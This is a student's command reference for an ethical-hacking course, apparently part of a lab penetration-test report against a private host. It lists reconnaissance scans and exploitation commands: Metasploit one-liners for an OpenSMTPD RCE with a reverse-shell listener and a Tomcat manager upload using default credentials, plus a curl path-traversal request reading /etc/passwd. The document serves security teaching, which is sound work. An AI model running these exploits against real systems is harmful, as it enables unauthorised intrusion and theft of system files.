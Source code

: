# ICT387 Ethical Hacking Command Reference

This file contains all commands used in the final penetration testing report. Each command is prepended with timestamp and student ID for traceability.

---

## 🔹 Environment Setup

```bash
date && echo "StudentID: 34658965" && echo ""
sudo apt update && sudo apt install -y nmap nikto gobuster ftp
```

---

## 🔹 Nmap Scanning

### Full Port Scan
```bash
date && echo "StudentID: 34658965" && echo ""
sudo nmap -Pn -p- 192.168.56.145 -oN all-port-scan.txt
```

### Nmap Vulnerability Script Scan
```bash
date && echo "StudentID: 34658965" && echo ""
nmap -T4 -Pn -p21,22,23,25,80,139,445,8888 -sV --script vuln 192.168.56.145 -oN script-vuln-sV-scan.txt
```

---

## 🔹 Nessus Vulnerability Scan
*Use the GUI to upload scan results and extract key vulnerabilities manually.*
```bash
date && echo "StudentID: 34658965" && echo ""
# Manual step: Review Nessus file 192_168_56_145_45oks7.pdf
```

---

## 🔹 Web Enumeration

### Gobuster Directory Brute-Forcing
```bash
date && echo "StudentID: 34658965" && echo ""
gobuster dir -u http://192.168.56.145 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20
```

### Nikto Web Misconfiguration Scan
```bash
date && echo "StudentID: 34658965" && echo ""
nikto -h http://192.168.56.145
```

---

## 🔹 Exploitation

### OpenSMTPD RCE - CVE-2020-7247
```bash
date && echo "StudentID: 34658965" && echo ""
msfconsole -q -x 'use exploit/unix/smtp/opensmtpd_mail_from_rce; set RHOSTS 192.168.56.145; set LHOST 192.168.56.142; set LPORT 4444; run'
```

### FTP Anonymous Access
```bash
date && echo "StudentID: 34658965" && echo ""
ftp 192.168.56.145
# Login: anonymous
ls
get fix_logging.txt
```

### Apache RCE Attempt - CVE-2021-41773
```bash
date && echo "StudentID: 34658965" && echo ""
curl -v --path-as-is http://192.168.56.145/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd
```

### Tomcat Manager Upload Attempt
```bash
date && echo "StudentID: 34658965" && echo ""
msfconsole -q -x 'use exploit/multi/http/tomcat_mgr_upload; set RHOSTS 192.168.56.145; set RPORT 8080; set HttpUsername tomcat; set HttpPassword tomcat; run'
```

---

## 🔹 Additional Notes

* Always run enumeration first before exploiting.
* Replace IP addresses as needed.
* Maintain logs with timestamps and Student ID in every terminal session.
* Review Nessus/Nmap output files manually for detailed CVE correlation.

---

**Prepared for Academic Submission – ICT387 Ethical Hacking and Software Security Project**
